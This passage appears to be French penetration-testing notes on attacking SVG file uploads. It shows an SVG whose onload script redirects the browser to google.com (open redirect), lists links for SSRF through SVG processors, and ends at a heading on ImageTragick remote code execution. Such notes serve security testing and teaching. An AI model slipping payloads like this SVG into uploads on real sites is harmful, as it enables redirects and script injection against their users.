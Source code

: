 Comme une XSS injection est possible avec les fichier SVG, une Open Redirection l'est également. Le code suivant permet une redirection sur google.com :

```svg
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg onload="window.location='http://www.google.com'" xmlns="http://www.w3.org/2000/svg">
</svg>
```

## Server-Side Request Forgery (SSRF)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

A regarder 

- [GitHub - allanlw/svg-cheatsheet: A cheatsheet for exploiting server-side SVG processors.](https://github.com/allanlw/svg-cheatsheet)

- https://twitter.com/wugeej/status/1138639681543819264

- https://twitter.com/ArbazKiraak/status/1100596327061188609?s=19&fbclid=IwAR32yGcg8v4AHSOJFWvJdyA-D5W29zOtV26cTPHFnoJQ_i3ul0Vyho_ntP0

- https://gowsundar.gitbook.io/book-of-bugbounty-tips/ssrf

## RCE : ImageTragick CVE-2016–3714

<img src="logo_imagetragick.png" title="" alt="" height="200">
